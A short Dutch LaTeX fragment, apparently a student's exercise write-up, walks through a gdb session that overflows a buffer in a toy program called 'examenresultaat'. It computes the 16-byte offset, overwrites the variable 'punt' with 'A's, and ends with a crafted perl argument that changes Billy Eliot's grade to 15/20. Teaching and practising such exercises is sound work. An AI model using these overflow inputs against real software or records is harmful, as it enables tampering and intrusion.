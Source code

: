 \begin{enumerate}
\begin{enumerate}
  	\item Berekenen hoeveel bytes er geschreven moeten worden om de variabele punt te overschrijven
  	\item \$1 = 16
  	\end{enumerate}
  \item (gdb) run \$(perl -e `print ``A''x17')
  	\begin{enumerate}
  	\item 17 keer A afprinten
  	\item De variabele punt zal nu overschreven worden met A
  	\end{enumerate}
  \item (gdb) cont
  \item (gdb) x/s punt
  	\begin{enumerate}
  	\item 0xbffff66a: ``5/20''
  	\end{enumerate}
  \item (gdb) cont
  \item (gdb) x/s punt
  	\begin{enumerate}
  	\item 0xbffff66a: ``A''
  	\end{enumerate}
  \item Gelukt!
  \item Volgens de opgave moet Billy Eliot \textgreater 10/20 behalen
  \item (gdb) quit
  \item ./examenresultaat ``\$(perl -e `print ``Billy Eliot'' . ``~~'' x5 . ``15/20'' ')''
\end{enumerate}

